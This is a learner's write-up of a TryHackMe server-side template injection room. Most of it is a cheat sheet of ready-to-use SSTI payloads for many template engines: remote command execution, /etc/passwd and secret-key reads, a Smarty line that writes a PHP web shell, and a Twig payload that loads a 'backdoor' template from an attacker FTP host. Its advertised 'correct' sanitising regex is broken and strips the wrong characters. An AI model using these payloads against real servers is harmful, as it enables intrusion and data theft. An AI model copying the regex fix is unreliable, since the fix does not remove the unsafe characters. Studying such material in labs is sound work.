 # Report on THM SSTI room 

![completed](completed.png)

<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```. 


So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:

```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```


Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.

![tree](tree.png)

To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Some payloads used earlier in some challenges:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory

{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}

{%print(self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read())%} - when {{ does not work use {%print(wodoo)%}
```

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings
